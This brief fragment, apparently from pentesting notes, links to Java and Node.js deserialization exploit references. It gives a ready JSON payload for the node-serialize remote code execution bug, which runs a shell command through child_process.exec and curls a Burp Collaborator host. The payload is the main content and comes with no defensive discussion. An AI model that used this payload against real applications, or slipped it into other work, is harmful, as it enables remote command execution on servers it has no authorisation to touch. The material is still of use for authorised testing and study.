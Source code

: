https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf

```
"name":"_$$ND_FUNC$$_function(){\r\nrequire('child_process').exec('curl xuvydfqrb0e9h670bd3ljpqdv41upj.burpcollaborator.net', function(error, stdout, stderr) { console.log(stdout)});\r\n\t}"
```
